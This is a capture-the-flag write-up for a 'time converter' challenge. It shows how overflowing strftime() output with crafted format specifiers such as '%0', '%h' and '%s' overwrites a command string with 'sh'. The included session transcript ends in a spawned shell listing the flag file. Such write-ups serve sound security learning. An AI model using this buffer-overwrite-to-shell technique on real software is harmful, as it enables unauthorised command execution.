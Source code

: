 This is by far the easiest way to solve this challenge.
1. Overflow the output (with some trial and error)
2. Use an invalid option of `strftime()` such as `%0` while maintaining the % for every odd position
3. Add `%h` add the back to add the first letter
4. Repeat steps 1-3 but remove one byte in step 1 so as not to overwrite `h`
5. Add `%s` add the back to add the final letter
6. Run Choice 3 to get a shell.

```shell
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1
The time now is 1711944005.
Enter format specifier: %A%A%A%A%A%%%%%0%h      
Formatted: MondayMondayMondayMondayMonday%%%h

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 3
Adiós!
sh: 1: %h: not found

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1   
The time now is 1711944006.
Enter format specifier: %A%A%A%A%A%%%0%s      
Formatted: MondayMondayMondayMondayMonday%%sh

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 3
Adiós!
$ ls
bash.sh     exploit.py  fmtstr    locales.txt         script.py  working.txt
Dockerfile  flag.txt    fmtstr.c  remote_working.txt  test.py
$ 
```
It is this simple ! I literally could not believe this worked. It seems that because `%0` is not a valid option, the function stops running after and leaves `%s` and `%h` intact. Leading to and easy overwrite. Wow. 
